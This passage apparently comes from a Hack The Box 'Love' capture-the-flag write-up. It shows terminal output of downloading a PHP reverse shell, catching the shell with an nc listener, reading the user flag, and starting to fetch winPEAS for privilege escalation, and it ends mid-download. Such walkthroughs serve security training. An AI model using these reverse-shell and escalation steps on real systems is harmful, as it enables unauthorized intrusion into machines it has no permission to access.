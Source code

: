 ```text
┌──(root💀kali)-[~/htb/love]
└─# wget https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/php_reverse_shell.php                                      
--2021-07-31 23:21:47--  https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/php_reverse_shell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9283 (9.1K) [text/plain]
Saving to: ‘php_reverse_shell.php’

php_reverse_shell.php                     100%[==========================================>]   9.07K  --.-KB/s    in 0.001s  

2021-07-31 23:21:47 (5.90 MB/s) - ‘php_reverse_shell.php’ saved [9283/9283]
```

## User Flag

After uploading that one and refreshing the admin page we get our initial shell:

```text
┌──(root💀kali)-[~/htb/love]
└─# nc -nlvp 1234             
listening on [any] 1234 ...
connect to [10.10.15.5] from (UNKNOWN) [10.10.10.239] 61829
SOCKET: Shell has connected! PID: 7028
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>
```

Let's grab the user flag before we move on:

```text
C:\xampp\htdocs\omrs\images>cd c:\users\phoebe\desktop

c:\Users\Phoebe\Desktop>type user.txt
<HIDDEN>
```

## WinPEAS Enumeration

For speed let's use WinPEAS to look for our escalation path:

```text
┌──(root💀kali)-[~/htb/love]
└─# wget https://github.com/carlospolop/PEASS-ng/raw/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe
--2021-07-31 23:39:59--  https://github.com/carlospolop/PEASS-ng/raw/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe
Resolving github.com (github.com)... 140.82.121.3
Connecting to github.com (github.com)|140.82.121.3|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe [following]
--2021-07-31 23:40:00--  https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.110.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
```